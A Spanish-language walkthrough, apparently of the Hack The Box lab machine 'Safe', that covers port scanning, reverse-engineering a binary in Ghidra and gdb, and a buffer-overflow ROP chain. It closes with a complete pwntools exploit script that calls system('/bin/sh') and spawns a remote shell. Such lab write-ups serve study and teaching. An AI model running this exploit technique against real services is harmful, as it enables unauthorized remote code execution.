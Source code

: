 # Safe

### Tags
#### Buffer Overflow
#### Binary Exploitation

Empezamos lanzando nmap para ver que puertos y servicios que se estan ejecutando.

![0](https://user-images.githubusercontent.com/50462944/174450002-4592b4e0-1b47-487e-95d7-a76c4e0b6a05.png)

Vemos que el puerto 80 y 1337 estan abiertos.

Analizando la pagina se puede ver un comentario sobre el puerto 1337. 

![1](https://user-images.githubusercontent.com/50462944/174449826-9b702237-a914-4677-a066-f11224e3fc01.png)

Si accedemos a http://10.10.10.147/myapp, se descargara "myapp" que segun el comentario se esta ejecutando en ese puerto.


![2](https://user-images.githubusercontent.com/50462944/174450232-36dc8c6e-b2ec-4803-a879-e7eba0ce6010.png)

![3](https://user-images.githubusercontent.com/50462944/174449828-213d2e92-922f-4dc3-9496-b79cbcf842b1.png)

Viendo el servicio en 1337 y "myapp" podemos ver que es lo mismo.


![4](https://user-images.githubusercontent.com/50462944/174449829-80d951b4-d691-4329-aafb-27fced7f3a8a.png)

Analizando los strings legibles podemos ver que hay un /usr/bin/uptime y la pregunta que devuelve el programa.

Estos abrimos ghidra, y creamos un proyecto y importamos el archivo.

![s2](https://user-images.githubusercontent.com/50462944/174450325-c122d315-fef5-44ae-93b2-c38559494751.png)


![s4](https://user-images.githubusercontent.com/50462944/174449825-a44d5547-bd7e-4994-b4f7-92f6fb86f071.png)

Podemos ver una la función main, una variable local_78 con 112 bits, y una funcion a nivel de sistema.

Por lo que lo interesante seria poder cambiar el /usr/bin/uptime a un /bin/sh.

![6](https://user-images.githubusercontent.com/50462944/174449832-02c396f8-3dc8-479c-aa35-de1caedd6d0c.png)


Hacemos un breackpoint en la funcion main

![ksnip_20220618-152833](https://user-images.githubusercontent.com/50462944/174452172-8407bccd-b1b0-4658-a922-8db72cea2040.png)

Avanzamos en las pilas con "si" hasta system

![ksnip_20220618-152923](https://user-images.githubusercontent.com/50462944/174452229-eb448863-5294-43a9-83c5-ef4a58d762aa.png)

Se puede ver que el valor /usr/bin/uptime que es ejecutado a nivel de sistema esta siendo guardado en la pila $rdi

![ksnip_20220618-153100](https://user-images.githubusercontent.com/50462944/174452266-ccb916ef-40de-4cda-9f84-b3fb9c87edb4.png)

```bash
~ python3 -c 'print("A"*120 + "B"*8 + "C"* 8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

Ahora podemos ver que $rsp puede ser cambiado 

![ksnip_20220618-152509](https://user-images.githubusercontent.com/50462944/174452383-5afba89a-3979-4e1f-8651-d7d6b7627d19.png)

Analizando la funcion test podemos ver "MOV     RDI, RSP" que significa que esta moviento los valores el $rsp al $rdi. Recordando que $rdi es lo que se ejecuta en system y $rsp es lo que podemos modificar.

![5](https://user-images.githubusercontent.com/50462944/174449816-a39c1be0-5b8c-43a6-9737-71165b201520.png)

Analizamos los 

```bash
~ cat poc.py
from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)

junk = b"A"*112
# Una vez pasadas las 112 "A" va a haber un desbordamiento
# Le restamos 8 por que /bin/sh\x00 serian 8 caracteres
bin_sh = b"/bin/sh\x00"
# Y remplazamos en binario el $rsi 

pop_r13 = p64(0x401206)
null = p64(0x0)

system_plt = p64(0x401040)

test = p64(0x401152)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

p.sendline(payload)
p.interactive()
```

Una vez lanzado el ataque obtenemos una bash.

![7](https://user-images.githubusercontent.com/50462944/174449830-73918c79-32f7-4b06-8eaa-1eb3f07c1f76.png)
